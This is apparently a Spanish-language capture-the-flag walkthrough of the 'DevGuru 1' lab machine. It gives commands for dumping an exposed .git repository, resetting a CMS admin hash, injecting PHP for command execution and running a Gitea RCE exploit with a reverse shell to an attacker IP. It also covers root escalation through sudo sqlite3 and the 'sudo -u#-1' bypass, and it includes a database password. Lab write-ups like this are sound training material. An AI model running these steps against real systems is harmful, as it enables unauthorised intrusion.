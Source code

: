 # DevGuru 1

Tags: [[_infoLeakage]],[[_cms]],[[_scripting]],[[_webExploitation]],[[_sudoersAbusing]]

## Primeros pasos
(Reconocimiento).

Primero le acomodamos bien para que agarre una IP (poner modo Bridged).

Organizamos TMUX.
Hacemos un escaneo en la red para determinar la IP de la máquina.
Mediante el OUI reconocemos la máquina que vamos a atacar.

Le hacemos un ping a la máquina. (Está activa o no).
Posible máquina Linux.
Creamos un directorio como la IP o nombre de la máquina.
Ponemos la IP de la máquina en un lugar visible.
Creamos los directorios de trabajo.

Empezamos el escaneo con NMAP.

Buscamos codename con launchpad, un posible Ubuntu Bionic.

Puertos abiertos.
22 - SSH. Versión 7.6 (menor a la 7.7)

80 - HTTP. Apache.

8585 - HTTP (Unknown)

## Investigación (Intrusión)
(Reconocimiento/Enumeración).

22.
Podríamos confirmar usuarios cuando dispongamos de unos.

80.
Habla acerca de GIT y de repositorios.
Whatweb no dice mucho, se menciona un usuario "support" y un dominio "devguru.local".

Contemplemos el dominio "devguru" y "devguru.local" en el /etc/hosts

En la web.
+IP
No está funcional la página, y el código fuente no dice mucho.

Wappalyzer reporta que tiene un October CMS, PHP.

+devguru
Parece ser la misma.

+devguru.local
Parece ser la misma.

Seguiremos en devguru.local por cualquier cosa.
Fuzzeemos (antes de, veamos el puerto 8585).
/about nos da posibles usuarios, creamos una lista de usuarios. No hay más. (los probamos por ssh pero ninguno es válido).

/backend nos redirige a un panel de autenticación de October. El usuario "frank" es válido pero no conocemos su password de momento.
En el código vemos que se maneja un token, on nombre "csrf", tengámoslo en cuenta. Cuando volvemos a entrar nos dice que el Document Expired, nos pide hacer un resend.
Por lo visto está sicronizado con la web de Gitea del 8585.

/artisan se habla de Artisan, y de unas configuraciones del mismo.


Antes de intentar Fuerza Bruta sobre el panel de autenticación de October, busquemos en searchsploit algo de October CMS (no parecen jugosas).

Recordando, había un /.git/ reportado por NMAP, pero desde la web se ve un 404.
<span style="color:#ff9a57">SIEMPRE tener en cuenta esto de cara a un .git</span>
Pues la idea sería jugar con gitdumper.
(Antes que nada intentamos clonar http://192.168.0.17/.git/ pero vemos que no va)
De gitdumper
Clono dumper de esta manera
svn checkout https://github.com/internetwache/GitTools/trunk/Dumper :    quito /tree/master y pongo /trunk
Y lo mismo para la carpeta Extractor.
<span style="color:#379075">Aunque a mi no me funcionó.</span>

Hacemos
./gitDumper.sh http://1922.168.0.17/.git/ ./project 
Para que en la carpeta project nos ponga el proyect de Git.

Para ahora jugar con el Extractor.
<span style="color:#88c425">./extractor.sh project ./fullProject </span>:    le pasamos el project que dumpeamos. Para que nos cree los directorios, archivos, etc., mejor estructurado.

Lo que encontramos del proyecto:
/adminer.php lo ponemos en la web, y es un panel de autenticación.

Hay un archivo database.php donde hay credenciales de acceso a la base de datos, entramos al panel de Adminer. (probamos "october" para ver si es válido a nivel de sistema, pero no)

Analicemos el Adminer.
Nos da una password de frank de la tabla "backend_users", pero está hasheada, al igual que un "persist_code".

Podemos cambiarle la contraseña, o intentar romper el hash (BCRYPT).
Pues ya habiendo visto el tipo de Hash, ir a bcrypt generator, colocar algo como password123 y hashearlo, para luego ir al Adminer y cambiarla.


En el panel de login de October, probamos la contraseña y pa deentro.

Analizar October.
En "CMS", y en "Home", se puede ver una parte donde meter código, me interpreta PHP la web, así que probemos con eso.
Busquemos en internet "october cms php code".
Entramos a una oficial y checamos.
Seguimos unos pasos para lograr poner código ahí, con el "Code" y el "Markup".

![[Pasted image 20240625230802.png]]

Y llamar a la funión ahí al final.
![[Pasted image 20240625230820.png]]

Pero en lugar de que sea "Hello World", que sea
![[Pasted image 20240625230946.png]]

Guardamos.
Como lo hicimos en la página principal, hacemos
http://192.168.0.17/?cmd=whoami
Y en un punto en la web se debería ver, y efectivamente, se ve el "www-data".

Ya sería cuestión de ganar acceso al sistema.


8585.
Whatweb reporta algo de gitea, y también se habla de GIT. 

En la web.
Corre un Gitea por detrás, version 1.12.5
Tenemos un usuario "frank".
Podemos registrarnos (deshabilitado) y entrar, para esto último nos pide usuario/email y contraseña.
(validemos con ssh si frank es usuario a nivel de sistema, sí lo es, root también).

Fuzzeemos (antes por el puerto 80).
Antes de fuzzear buquemos en searchsploit algo de Gitea (hay uno de RCE en la versión 1.12.5 que es la que tenemos, pero hay que estar autenticados).

Fuzzeando.
/debug hay una Toolbox Index pero los enlaces arrojan un 404.
/milestones me redirije al login, pero curioso que me aparezca.
/healtcheck me aparece algo de que la Database connection: OK.



## Escalada

Enumerar todo el sistema.
Probamos la contraseña de october:SQ66EBYx4GT3byXH con el usuario frank para ver si se reutiliza, pero no.

En /var/backups hay un archivo que tiene una password, podríamos usarla sobre otros usuarios, pero no es de frank.
O probar también en el Adminer, con el host, nombre de base de datos, etc., que viene está en el archivo. Y sí funcionan.
En una tabla user vemos a frank con un hash como password.
Podemos crackearla, o cambiarla como ya lo habíamos hecho. Solo que ponemos bcrypt para el tipo de algoritmo (lo escribimos manual).
Guardamos.

Tratamos de entrar al Gitea de frank, y pa deentro.
Recordando la vulnerabilidad del RCE para esta versión, podríamos intentarla.

<span style="color:#88c425">python3 49571.py -v -t http://192.168.0.17:8585 -u frank -p password123 -I 192.168.0.11 -P 443 -f prueba</span> 
<span style="color:#ecacb6">-f </span>para especificar un archivo con la reverse shell.
Y pa deeentro.

(También en el gitea, podríamos haber abusado de los Git Hooks, creando un script de bash que entable una reverse shell, crear un commit, y como se va a ejecutar el Git Hook, pues pa dentro).

<span style="color:#bef202">Escalar a root.</span>
<span style="color:#88c425">sudo -l</span> podemos ejecutar sqlite3 NO como root.
Puedo hacer
<span style="color:#88c425">sudo -u frank sqlite3 /dev/null '.shell /bin/sh'</span> :    y es lo mismo práctiamente.

Pero la versión del sudo es 1.8, así que si hago
<span style="color:#88c425">sudo -u#-1 sqlite3 /dev/null '.shell /bin/bash'</span> 
Burlamos la restricción y pa deeeeeentro.

FIN.
